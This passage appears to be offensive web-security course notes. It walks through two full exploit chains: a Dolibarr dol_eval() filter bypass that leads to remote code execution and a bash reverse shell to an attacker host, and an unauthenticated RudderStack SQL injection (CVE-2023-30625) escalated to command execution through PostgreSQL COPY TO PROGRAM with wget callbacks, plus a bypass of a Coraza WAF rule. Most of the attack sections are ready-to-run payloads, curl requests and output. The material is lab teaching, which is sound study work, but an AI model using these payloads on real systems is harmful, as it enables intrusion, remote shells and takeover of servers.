grep -rn " eval(" --include="*.php" /usr/share/dolibarr/ grep -rn "exec(\|system(\|passthru(\|shell_exec(" --include="*.php" /usr/share/dolibarr/ -
grep -rn "dol_eval(" --include="*.php" /usr/share/dolibarr/ | wc -l
13.3 Source Code Analysis
The bottom-up approach starts by searching for dangerous sinks. In Dolibarr's PHP codebase, searching for eval( reveals 276 results across 101 files. Refining the search with a leading space narrows it to 31 instances in 14 files. Among the results is a wrapper function called dol_eval() in htdocs/core/lib/functions.lib.php.
13.3.1 The dol_eval() Function
The dol_eval() function is documented as a secure replacement for eval(). It accepts four parameters: the string to evaluate ($s), a return value flag, an error hiding flag, and the $onlysimplestring parameter that controls character validation. The function is called by verifCond() and trans().
/**
* Replace eval function to add more security.
* @param string $s String to evaluate
* @param int $returnvalue 0=No return, 1=Value returned
* @param int $hideerrors 1=Hide errors
* @param string $onlysimplestring '0'=Accept all, '1'=Simple string only,
* '2'=Accept also ;[]
*/
function dol_eval($s, $returnvalue = 0, $hideerrors = 1, $onlysimplestring = '1')The function ultimately calls PHP's native eval() on the $s variable if all validation checks pass. The @ operator suppresses error messages when $hideerrors is true.
// eval() calls within dol_eval() - lines 9051-9063
if ($returnvalue) {
if ($hideerrors) {
return @eval('return '.$s.';');
} else {
return eval('return '.$s.';');
}
} else {
if ($hideerrors) {
@eval($s);
} else {
eval($s);
}
}Searching for dol_eval( across the codebase reveals 131 results in 56 files, confirming widespread use throughout the application.
Methodology
-
grep -A 20 "function dol_eval" /usr/share/dolibarr/htdocs/core/lib/functions.lib.php
13.4 Filter Analysis
The dol_eval() function applies three layers of validation before passing the string to eval(). Each layer must be defeated to reach code execution.

13.4.1 Layer 1: Character Allowlist
When $onlysimplestring equals '1', the function uses a regex to restrict allowed characters. If set to '2', square brackets are additionally permitted. Any other value (including an empty string) skips the character check entirely, since the code only handles '1' and '2' with no fallback guard clause.
// Layer 1: Character allowlist (functions.lib.php lines 8969-8994)
if ($onlysimplestring == '1') {
if (preg_match('/[^a-z0-9\s'.preg_quote('^$_+-.*>&|=!?():"\',/@', '/').']/i', $s)) {
// Block: chars outside the allowed set
return 'Bad string syntax to evaluate';
}
} elseif ($onlysimplestring == '2') {
// Same regex but also allows [ and ]
if (preg_match('/[^a-z0-9\s'.preg_quote('^$_+-.*>&|=!?():"\',/@;[]', '/').']/i', $s)) {
return 'Bad string syntax to evaluate';
}
}
// Any other value: NO character checking| $onlysimplestring | Allowed Characters | Security Level |
|---|---|---|
'1' (default) | a-z0-9 \s ^$_+-.*>&|=!?():\"',/@ | Most restrictive |
'2' | Same as '1' plus ;[] | Slightly relaxed |
| Any other value | All characters | No restriction |
13.4.2 Layer 2: Specific Character Blocks
Regardless of the $onlysimplestring value, the function blocks three specific character patterns. Double colons (::) are the PHP scope resolution operator for accessing class properties. Backticks are PHP execution operators equivalent to shell_exec(). Periods between non-numeric characters block string concatenation, a common technique for bypassing keyword blocklists.
// Layer 2: Specific character blocks (lines 8995-9021)
// Block arrays
if (is_array($s) || $s === 'Array') {
return 'Bad string syntax to evaluate (value is Array)';
}
// Block double colons (scope resolution operator)
if (strpos($s, '::') !== false) {
return 'Bad string syntax to evaluate (double : char is forbidden)';
}
// Block backticks (execution operator = shell_exec)
if (strpos($s, '`') !== false) {
return 'Bad string syntax to evaluate (backtick char is forbidden)';
}
// Block dots between non-numbers (string concatenation)
if (preg_match('/[^0-9]+\.[^0-9]+/', $s)) {
return 'Bad string syntax to evaluate (dot char is forbidden)';
}| Blocked Pattern | PHP Meaning | Reason for Block |
|---|---|---|
:: | Scope resolution operator | Prevents accessing class methods/properties |
` | Execution operator (shell_exec()) | Prevents direct command execution |
. (non-numeric) | String concatenation | Prevents building blocked keywords by concatenation |
13.4.3 Layer 3: Function Blocklist
The final layer defines arrays of forbidden strings and function names. A do-while loop replaces matches with __forbiddenstring__ - if that sentinel appears after replacement, the function bails before calling eval(). The blocklist covers base64_decode but misses urldecode, str_rot13, and other encoding functions.
// Layer 3: Function blocklist (lines 9023-9038)
// Forbidden superglobal strings
$forbiddenphpstrings = array('$$');
$forbiddenphpstrings = array_merge($forbiddenphpstrings,
array('_ENV', '_SESSION', '_COOKIE', '_GET', '_POST', '_REQUEST'));
// Forbidden function names
$forbiddenphpfunctions = array("exec", "passthru", "shell_exec", "system",
"proc_open", "popen", "eval", "dol_eval", "executeCLI",
"verifCond", "base64_decode");
$forbiddenphpfunctions = array_merge($forbiddenphpfunctions,
array("fopen", "file_put_contents", "fputs", "fputscsv", "fwrite",
"fpassthru", "require", "include", "mkdir", "rmdir", "symlink",
"touch", "unlink", "umask"));
$forbiddenphpfunctions = array_merge($forbiddenphpfunctions,
array("function", "call_user_func"));
// Build regex and replace in a loop
$forbiddenphpregex = 'global\s+\$|\b('.implode('|', $forbiddenphpfunctions).')\b';
do {
$oldstringtoclean = $s;
$s = str_ireplace($forbiddenphpstrings, '__forbiddenstring__', $s);
$s = preg_replace('/'.$forbiddenphpregex.'/i', '__forbiddenstring__', $s);
} while ($oldstringtoclean != $s);| Category | Blocked Items |
|---|---|
| Superglobals | $$, _ENV, _SESSION, _COOKIE, _GET, _POST, _REQUEST |
| Command execution | exec, passthru, shell_exec, system, proc_open, popen |
| Code execution | eval, dol_eval, executeCLI, verifCond |
| Encoding | base64_decode (but NOT urldecode, gzdecode, str_rot13) |
| File operations | fopen, file_put_contents, fputs, fwrite, require, include, etc. |
| Other | function, call_user_func |
Methodology
-
grep -A 30 "forbiddenphpfunctions" /usr/share/dolibarr/htdocs/core/lib/functions.lib.php
13.5 Filter Bypass Techniques
Blocklist-based filtering around eval() is a losing game - PHP has too many ways to invoke functions indirectly. The goal is to call blocked functions without their names appearing in plaintext.
13.5.1 Dynamic Function Invocation via get_defined_functions()
get_defined_functions() returns a multidimensional array of every defined function. Calling a function by its array index avoids name-based blocklist detection entirely. exec() sits in the "internal" array.
// Step 1: List all defined functions
php > print_r(get_defined_functions());
Array
(
[internal] => Array
(
[0] => zend_version
[1] => func_num_args
...
[4] => strlen
...
[550] => exec
[551] => system
[552] => passthru
[553] => escapeshellcmd
[554] => escapeshellarg
[555] => shell_exec
...
[1584] => cli_get_process_title
)
[user] => Array ( )
)// Step 2: Invoke strlen() by array index
php > echo get_defined_functions()["internal"][4]("hello world");
11
// Step 3: Invoke exec() by array index
php > echo get_defined_functions()["internal"][550]("whoami");
studentThe index of exec() shifts when Dolibarr imports additional functions at runtime. Use array_search() with a URL-encoded function name to find it dynamically - urldecode() is not on the blocklist.
// Verify urldecode handles alphanumeric encoding
php > echo urldecode("%65%78%65%63");
exec
// Use array_search() to find exec's index dynamically
php > echo array_search(urldecode("%65%78%65%63"),
get_defined_functions()["internal"]);
550
// Complete payload: search for and invoke exec()
php > echo get_defined_functions()["internal"][array_search(
urldecode("%65%78%65%63"),
get_defined_functions()["internal"])]("whoami");
studentThis payload requires square brackets and percent signs, which are blocked when $onlysimplestring is '1'. A call to dol_eval() with $onlysimplestring set to an empty string or '0' is required for this payload to work.
13.5.2 Reflection-Based Bypass
A ReflectionFunction object can invoke any function by name. Pass the URL-encoded name of exec() to dodge the blocklist - no get_defined_functions or array_search needed.
// ReflectionFunction bypass with urldecode
(new ReflectionFunction(urldecode('%65%78%65%63')))->invoke('whoami');13.5.3 Alternative Encoding Bypasses
The blocklist covers base64_decode() but misses several other encoding functions. ROT13, gzip, and hex-to-string conversions can all reconstruct blocked function names.
// ROT13 encoding: "exec" encoded as "rkrp"
(new ReflectionFunction(str_rot13('rkrp')))->invoke('whoami');
// gzip encoding is also available via gzencode()/gzdecode()
// hex2bin() converts hex to string13.5.4 String Manipulation Bypasses
String functions can also reconstruct blocked names without special characters, which is useful against stricter $onlysimplestring settings.
// str_replace: reconstruct "exec" by replacing "z" with "e"
(new ReflectionFunction(str_replace("z", "e", "zxzc")))->invoke('hostname');
// implode: join array elements with separator
(new ReflectionFunction(implode("x", array("e","ec"))))->invoke('hostname');
// strip_tags: remove HTML tag from within "exec"
(new ReflectionFunction(strip_tags("ex<a>ec")))->invoke('hostname');Methodology
-
echo get_defined_functions()["internal"][array_search(urldecode("%65%78%65%63"), get_defined_functions()["internal"])]("whoami"); -
(new ReflectionFunction(urldecode('%65%78%65%63')))->invoke('whoami'); -
(new ReflectionFunction(str_rot13('rkrp')))->invoke('whoami'); -
php -r 'echo get_defined_functions()["internal"][array_search(urldecode("%65%78%65%63"), get_defined_functions()["internal"])]("id");'
13.6 Exploitation
The bypass payload requires a dol_eval() call with $onlysimplestring set to a value other than '1' or '2'. Searching the codebase with a regex that matches non-standard $onlysimplestring values identifies the vulnerable call sites.
13.6.1 Finding the Vulnerable Call
The regex dol_eval\(\$[\w\[\]']+,\s\d,\s\d,\s'(?!1|2)'\) searches for dol_eval() calls where the fourth parameter is not '1' or '2'. This returns three results in commonobject.class.php: the insertExtraFields(), updateExtraFields(), and showOutputField() functions, all passing an empty string for $onlysimplestring.
# Search for dol_eval calls with non-standard $onlysimplestring
grep -rPn "dol_eval\(.*''\)" --include="*.php" /usr/share/dolibarr/// showOutputField() in commonobject.class.php
// Line 7476: gets 'computed' value from field definition
$computed = empty($val['computed']) ? '' : $val['computed'];
// Line 7512-7516: passes computed value to dol_eval with empty $onlysimplestring
if ($computed) {
$value = dol_eval($computed, 1, 0, ''); // '' bypasses character allowlist!
}
// Line 7845-7847: returns the result
$out = $value;
return $out;The CommonObject class is the parent class of all business classes in Dolibarr. Searching for extends CommonObject reveals 154 results in 130 files, meaning every child class inherits the vulnerable showOutputField() function.
13.6.2 Triggering the Vulnerability
The Users & Groups module (enabled by default) allows administrators to define custom attributes with "Computed field" values. The tooltip confirms the field accepts "any PHP coding to get a dynamic computed value." This value flows directly to the vulnerable dol_eval() call.
Navigate to the Users module setup: http://[target-ip]/dolibarr/user/admin/user_extrafields.php. Add a new attribute with Type "String (1 line)" and a test Computed field value.
13.6.3 Remote Code Execution
Update the Computed field with the full bypass payload. Navigate to the Users list to trigger the showOutputField() function, which evaluates the payload through dol_eval() and displays the result.
// RCE proof-of-concept payload (Computed field value)
get_defined_functions()["internal"][array_search(urldecode("%65%78%65%63"),
get_defined_functions()["internal"])]("whoami");
// Result displayed in Users list: "www-data"13.6.4 Reverse Shell
Replace the whoami command with a bash reverse shell. Start a Netcat listener, then update the Computed field and navigate to the Users list to trigger the payload.
# Start listener on attacker machine
nc -nvlp [listener-port]// Reverse shell payload (Computed field value)
get_defined_functions()['internal'][array_search(urldecode("%65%78%65%63"),
get_defined_functions()['internal'])]("/bin/bash -c 'bash -i >& /dev/tcp/[attacker-ip]/[listener-port] 0>&1'");# Reverse shell received
listening on [any] [listener-port] ..
www-data@dolibarr:/usr/share/dolibarr/htdocs/user/admin$ whoami
www-dataMethodology
-
grep -rn " eval(" --include="*.php" /usr/share/dolibarr/ -
grep -rPn "dol_eval\(.*''\)" --include="*.php" /usr/share/dolibarr/ -
get_defined_functions()["internal"][array_search(urldecode("%65%78%65%63"), get_defined_functions()["internal"])]("whoami");
14. RudderStack SQLi and WAF Bypass
14.1 Overview
RudderStack is a Go-based open-source data pipeline application. Version 1.2.5 contains an unauthenticated SQL injection vulnerability (CVE-2023-30625) in the /v1/warehouse/pending-events endpoint. The getPendingStagingFileCount() function constructs SQL queries using Go's fmt.Sprintf() string formatting instead of parameterized queries, allowing user-controlled input to manipulate the SQL statement. This module also covers bypassing OWASP Coraza WAF rules using the ModSecurity Core Rule Set (CRS).
Methodology
14.2 Lab Setup
The RudderStack VM runs multiple Docker containers: student_caddy_1 (Coraza WAF on port 80), student_backend_1 (RudderStack on port 8080), and student_db_1 (PostgreSQL on port 6432). The application is accessible directly on port 8080 or through the WAF on port 80. Source code is available via code-server on port 8000.
# Add host entry
echo "[attacker-ip] [target-hostname]" | sudo tee -a /etc/hosts
# List running Docker containers
docker ps
# Get interactive shell on a container
docker exec -it student_db_1 /bin/sh| Container | Service | Port | Purpose |
|---|---|---|---|
student_caddy_1 | Caddy + Coraza WAF | 80 | WAF proxy to RudderStack |
student_backend_1 | RudderStack v1.2.5 | 8080 | Application backend (direct access) |
student_db_1 | PostgreSQL 15 | 6432 | Database |
student_d-transformer_1 | Rudder Transformer | 9090 (localhost) | Data transformation service |
student_metrics-exporter_1 | StatsD Exporter | 9102 (localhost) | Metrics collection |
Methodology
-
echo "[attacker-ip] [target-hostname]" | sudo tee -a /etc/hosts -
docker ps -
curl -s http://rudderstack:8080/version curl -s http://rudderstack:80/version -
docker exec -it student_db_1 /bin/sh docker exec -it student_caddy_1 /bin/sh
14.3 API Endpoint Discovery
RudderStack uses gorilla/mux for HTTP routing. The StartWebHandler() function in gateway.go registers all API endpoints using HandleFunc() calls that map URL paths to handler functions. Searching for /v1 in *.go files (excluding test files) reveals the available endpoints.

// StartWebHandler() in gateway.go - route registration (lines 1422-1434)
func (gateway *HandleT) StartWebHandler(ctx context.Context) error {
gateway.logger.Infof("WebHandler Starting on %d", webPort)
srvMux := mux.NewRouter()
srvMux.Use(
middleware.StatMiddleware(ctx, srvMux),
middleware.LimitConcurrentRequests(maxConcurrentRequests),
)
srvMux.HandleFunc("/v1/batch", gateway.webBatchHandler).Methods("POST")
srvMux.HandleFunc("/v1/identify", gateway.webIdentifyHandler).Methods("POST")
srvMux.HandleFunc("/v1/track", gateway.webTrackHandler).Methods("POST")
// ... additional endpoints
}14.3.1 Extracting and Cleaning Endpoint URLs
Copy the search results from code-server to a file and use command-line tools to extract clean URL paths. The raw results include line numbers and file paths that need to be stripped.
# Extract endpoints from search results
grep -e "/v" routes.txt | cut -d "(" -f 2 | cut -d "," -f 1 | cut -d "\"" -f 2 | sort > routes_clean.txt# Cleaned endpoint list (routes_clean.txt)
/beacon/v1/batch
/data-plane/v1/namespaces/web300/config
/data-plane/v1/namespaces/web300/settings
/data-plane/v1/workspaces/web300/settings
/pixel/v1/page
/pixel/v1/track
/v1/alias
/v1/audiencelist
/v1/batch
/v1/clear-failed-events
/v1/failed-events
/v1/group
/v1/identify
/v1/import
/v1/job-status
/v1/job-status/web300
/v1/job-status/web300/failed-records
/v1/merge
/v1/page
/v1/pending-events
/v1/process
/v1/screen
/v1/setConfig
/v1/track
/v1/warehouse
/v1/warehouse/jobs
/v1/warehouse/jobs/status
/v1/warehouse/pending-events
/v1/warehouse/pending-events?triggerUpload=true
/v1/warehouse/trigger-upload
/v1/webhook14.3.2 Fuzzing Endpoints with Burp Intruder
Use Burp Suite Intruder with a Cluster bomb attack to test all combinations of HTTP methods (GET, POST) and URL paths. Configure two payload positions: the HTTP method and the URL path. Uncheck "URL-encode these characters" for the URL payload set to preserve forward slashes.
Sorting results by status code reveals an HTTP 400 response for POST to /v1/warehouse/pending-events?triggerUpload=true with the body "can't unmarshall body." Sorting by response length identifies six endpoints returning the same error, indicating they accept POST requests without authentication. Most other endpoints return 404 or "Failed to read writeKey" (authentication required).

| Endpoint | Auth Required | Response |
|---|---|---|
/v1/batch | Yes | "Failed to read writeKey" |
/v1/identify | Yes | "Failed to read writeKey" |
/v1/track | Yes | "Failed to read writeKey" |
/v1/warehouse/pending-events | No | "can't unmarshall body" (400) |
/v1/pending-events | No | "can't unmarshall body" (400) |
/v1/failed-events | No | "can't unmarshall body" (400) |
Methodology
-
grep -rn "HandleFunc\|/v1" --include="*.go" . | grep -v "_test.go" -
grep -e "/v" routes.txt | cut -d "(" -f 2 | cut -d "," -f 1 | cut -d "\"" -f 2 | sort > routes_clean.txt
14.4 SQL Injection Discovery
The /v1/warehouse/pending-events handler expects a JSON body with source_id and task_run_id fields. Adding Content-Type: application/json and a valid JSON body produces an HTTP 200 response, confirming unauthenticated access.

14.4.1 Request Format
The PendingEventsRequestT struct in warehouse/utils/utils.go defines the expected JSON structure. The pendingEventsHandler() function in warehouse.go unmarshals the request body and extracts the source_id value.
// PendingEventsRequestT struct (warehouse/utils/utils.go lines 321-324)
type PendingEventsRequestT struct {
SourceID string `json:"source_id"`
TaskRunID string `json:"task_run_id"`
}// pendingEventsHandler() - unmarshalling (warehouse.go lines 1673-1689)
var pendingEventsReq warehouseutils.PendingEventsRequestT
err = json.Unmarshal(body, &pendingEventsReq)
if err != nil {
http.Error(w, "can't unmarshall body", http.StatusBadRequest)
return
}
sourceID := pendingEventsReq.SourceID
if sourceID == "" {
http.Error(w, "empty source id", http.StatusBadRequest)
return
}14.4.2 Vulnerable SQL Construction
The sourceID value passes into getPendingStagingFileCount(), which builds its SQL query with fmt.Sprintf() instead of parameterized queries. The user-controlled sourceOrDestId lands directly in the WHERE clause - classic string-formatted SQL injection.
// getPendingStagingFileCount() - vulnerable SQL (warehouse.go lines 1777-1798)
func getPendingStagingFileCount(sourceOrDestId string, isSourceId bool) (fileCount int64, err error) {
sourceOrDestColumn := ""
if isSourceId {
sourceOrDestColumn = "source_id"
} else {
sourceOrDestColumn = "destination_id"
}
var lastStagingFileIDRes sql.NullInt64
sqlStatement := fmt.Sprintf(`
SELECT
MAX(end_staging_file_id)
FROM
%[1]s
WHERE
%[1]s.%[3]s = '%[2]s';
`,
warehouseutils.WarehouseUploadsTable, // %[1]s - table name
sourceOrDestId, // %[2]s - USER CONTROLLED
sourceOrDestColumn, // %[3]s - column name
)
err = dbHandle.QueryRow(sqlStatement).Scan(&lastStagingFileIDRes)
// ...
}The fmt.Sprintf() indexed verbs (%[1]s, %[2]s, %[3]s) insert values by position. The sourceOrDestId at position %[2]s is placed directly inside single quotes in the WHERE clause without sanitization. The resulting SQL is then executed via dbHandle.QueryRow().
Methodology
-
curl -s -X POST "http://[target-ip]:[port]/v1/warehouse/pending-events?triggerUpload=true" \ -H "Content-Type: application/json" \ -d '{"source_id":"test","task_run_id":"1"}'
14.5 Exploitation
14.5.1 Confirming SQL Injection
Inject a single quote in the source_id to break the SQL syntax. The application returns an HTTP 500 with a verbose error message containing the malformed SQL statement and pq: unterminated quoted string, confirming the vulnerability and revealing PostgreSQL as the database.
# Confirm SQLi with single quote
curl -s -X POST "http://[target-ip]:[port]/v1/warehouse/pending-events?triggerUpload=true" \
-H "Content-Type: application/json" \
-d '{"source_id":"'\''","task_run_id":"1"}'
# Response: 500 Internal Server Error
# "pq: unterminated quoted string at or near \"''';\""14.5.2 Stacked Query Injection
PostgreSQL supports stacked queries separated by semicolons. Inject a second valid SQL statement to verify the database processes it. An HTTP 200 response with no error confirms stacked query execution.
# Test stacked query injection
curl -s -X POST "http://[target-ip]:[port]/v1/warehouse/pending-events?triggerUpload=true" \
-H "Content-Type: application/json" \
-d '{"source_id":"1; select 2 FROM wh_uploads; -- -","task_run_id":"1"}'
# Response: 200 OK14.5.3 RCE via PostgreSQL COPY TO PROGRAM
PostgreSQL's COPY command can pipe data to an OS program when the database user holds the pg_execute_server_program role. The syntax COPY (SELECT ...) TO PROGRAM 'command' runs arbitrary commands on the database server.
| PostgreSQL Role | Capability |
|---|---|
pg_read_server_files | Read files via COPY FROM |
pg_write_server_files | Write files via COPY TO |
pg_execute_server_program | Execute OS commands via COPY TO PROGRAM |
# Start HTTP server to catch the callback
python3 -m http.server [http-port]# RCE via COPY TO PROGRAM
curl -s -X POST "http://[target-ip]:[port]/v1/warehouse/pending-events?triggerUpload=true" \
-H "Content-Type: application/json" \
-d "{\"source_id\":\"'; copy (select 'a') to program 'wget -q http://[attacker-ip]:[http-port]/it_worked' -- -\",\"task_run_id\":\"1\"}"
# Response: 500 (wget returns non-zero exit code)# Verify callback on attacker HTTP server
Serving HTTP on 0.0.0.0 port [http-port] (http://0.0.0.0:[http-port]/) ...
[attacker-ip] - - [29/Feb/2024 15:26:01] code 404, message File not found
[attacker-ip] - - [29/Feb/2024 15:26:01] "GET /it_worked HTTP/1.1" 404 -The HTTP 500 from the application is expected - wget returns a non-zero exit code since the file doesn't exist on the attacker server. The callback on the attacker's HTTP server confirms OS command execution on the target.
Methodology
-
curl -s -X POST "http://[target-ip]:[port]/v1/warehouse/pending-events?triggerUpload=true" \ -H "Content-Type: application/json" \ -d '{"source_id":"'\''","task_run_id":"1"}' -
curl -s -X POST "http://[target-ip]:[port]/v1/warehouse/pending-events?triggerUpload=true" \ -H "Content-Type: application/json" \ -d '{"source_id":"1; select 2 FROM wh_uploads; -- -","task_run_id":"1"}' -
python3 -m http.server [http-port] & curl -s -X POST "http://[target-ip]:[port]/v1/warehouse/pending-events?triggerUpload=true" \ -H "Content-Type: application/json" \ -d "{\"source_id\":\"'; copy (select 'a') to program 'wget -q http://[attacker-ip]:[http-port]/rce_confirmed' -- -\",\"task_run_id\":\"1\"}" -
docker exec student_caddy_1 cat /coraza/crs/rules/REQUEST-942-APPLICATION-ATTACK-SQLI.conf | grep -A5 "942540"
14.6 WAF Bypass
14.6.1 Web Application Firewall Concepts
A WAF sits at OSI layer 7 and matches HTTP traffic against keyword and regex rules. A matched request gets an HTTP 403. WAFs may also sanitize requests, rate-limit, block IPs, and inject security headers (CSP, X-Frame-Options, CORS).
14.6.2 Coraza WAF Setup
The lab runs Caddy with the OWASP Coraza module and the ModSecurity Core Rule Set (CRS). Coraza sits in student_caddy_1 on port 80, proxying to RudderStack on 8080. Check WAF logs to identify which rules fire on a given payload.
# Check Caddy/Coraza WAF logs
docker logs -n 5 student_caddy_114.6.3 Triggering the WAF
Sending the SQL injection payload through the WAF on port 80 returns HTTP 403 Forbidden with an empty body. Testing reveals the WAF's behavior: a single quote alone produces a normal 500 error from the application, but a single quote followed by a semicolon (';) triggers the WAF block.
# Payload blocked by WAF (via port 80)
curl -s -o /dev/null -w "%{http_code}" -X POST "http://[target-ip]:80/v1/warehouse/pending-events?triggerUpload=true" \
-H "Content-Type: application/json" \
-d "{\"source_id\":\"'; copy (select 'a') to program 'wget -q http://[attacker-ip]:[http-port]/it_worked' -- -\",\"task_run_id\":\"1\"}"
# Response: 403 Forbidden# Single quote alone passes through WAF
curl -s -X POST "http://[target-ip]:80/v1/warehouse/pending-events?triggerUpload=true" \
-H "Content-Type: application/json" \
-d '{"source_id":"'\''","task_run_id":"1"}'
# Response: 500 Internal Server Error (application error, not WAF block)14.6.4 WAF Rule Analysis
The Caddy logs reveal that rule 942540 ("SQL Authentication bypass - split query") from REQUEST-942-APPLICATION-ATTACK-SQLI.conf triggered the block. The rule uses an anomaly scoring model: matching a critical-severity rule adds 5 points to the inbound anomaly score, which exceeds the threshold and triggers a block via rule 949110.
| Log Field | Value |
|---|---|
| Rule ID | 942540 |
| Message | SQL Authentication bypass (split query) |
| Rule File | REQUEST-942-APPLICATION-ATTACK-SQLI.conf |
| Severity | CRITICAL |
| Matched Data | '; found within ARGS:json.source_id |
# SecRule definition for rule 942540
SecRule REQUEST_COOKIES|!REQUEST_COOKIES:/__utm/|REQUEST_COOKIES_NAMES|ARGS_NAMES|ARGS|XML:/*
"@rx ^(?:[^']*'|[^\"]*\"|[^`]*`)[\s\v]*;" \
"id:942540,\
phase:2,\
block,\
capture,\
t:none,t:urlDecodeUni,t:replaceComments,\
msg:'SQL Authentication bypass (split query)',\
severity:'CRITICAL'"| Rule Component | Value | Meaning |
|---|---|---|
| Directive | SecRule | Defines a WAF rule |
| Variables | ARGS, REQUEST_COOKIES, etc. | Parts of request to inspect (pipe-separated) |
| Operator | @rx ^(?:[^']*'|[^"]*"|[^`]*`)[\s\v]*; | Regular expression match |
| Transformations | urlDecodeUni, replaceComments | Applied to input before regex matching |
| Action | block | Deny the request if matched |
14.6.5 Understanding the WAF Regex
The regex ^(?:[^']*'|[^"]*"|[^`]*`)[\s\v]*; matches a closing quote (single, double, or backtick) followed by optional whitespace and a semicolon - the classic stacked-query injection signature. The urlDecodeUni and replaceComments transformations run before matching, blocking basic URL-encoding and SQL comment evasion.
14.6.6 Crafting the Bypass
The bypass separates the single quote from the semicolon by inserting a valid SQL expression between them. Adding or 1=2 after the closing quote and before the semicolon prevents the regex from matching, because the quote is no longer immediately followed by whitespace and a semicolon. The injected expression must be valid SQL to avoid syntax errors.
| Payload | source_id Value | WAF Behavior |
|---|---|---|
| Original | '; copy (select 'a') to program 'wget ...' -- - |
Blocked because the closing quote is followed directly by a semicolon. |
| Bypass | ' or 1=2; copy (select 'a') to program 'wget ...' -- - |
Allowed because or 1=2 separates the quote from the semicolon while preserving valid SQL syntax. |
Test the regex against both payloads on regex101.com before sending. The original payload '; matches the regex pattern; the bypass ' or 1=2; does not match because or 1=2 separates the quote from the semicolon.
# WAF bypass payload
curl -s -X POST "http://[target-ip]:80/v1/warehouse/pending-events?triggerUpload=true" \
-H "Content-Type: application/json" \
-d "{\"source_id\":\"' or 1=2; copy (select 'a') to program 'wget -q http://[attacker-ip]:[http-port]/it_will_bypass' -- -\",\"task_run_id\":\"1\"}"
# Response: 500 Internal Server Error (NOT 403 - WAF bypassed)# Confirm callback received on attacker HTTP server
Serving HTTP on 0.0.0.0 port [http-port] (http://0.0.0.0:[http-port]/) ...
[attacker-ip] - - [29/Feb/2024 15:44:44] code 404, message File not found
[attacker-ip] - - [29/Feb/2024 15:44:44] "GET /it_will_bypass HTTP/1.1" 404 -No WAF block, and the callback landed - the modified payload evades rule 942540 while still executing through the SQL injection.
Methodology
-
grep -rn "HandleFunc\|/v1" --include="*.go" . | grep -v "_test.go" -
grep -e "/v" routes.txt | cut -d "(" -f 2 | cut -d "," -f 1 | cut -d "\"" -f 2 | sort > routes_clean.txt -
curl -s -X POST "http://[target-ip]:[port]/v1/warehouse/pending-events?triggerUpload=true" \ -H "Content-Type: application/json" \ -d '{"source_id":"'\''","task_run_id":"1"}' -
curl -s -X POST "http://[target-ip]:[port]/v1/warehouse/pending-events?triggerUpload=true" \ -H "Content-Type: application/json" \ -d '{"source_id":"1; select 2 FROM wh_uploads; -- -","task_run_id":"1"}' -
docker logs -n 20 student_caddy_1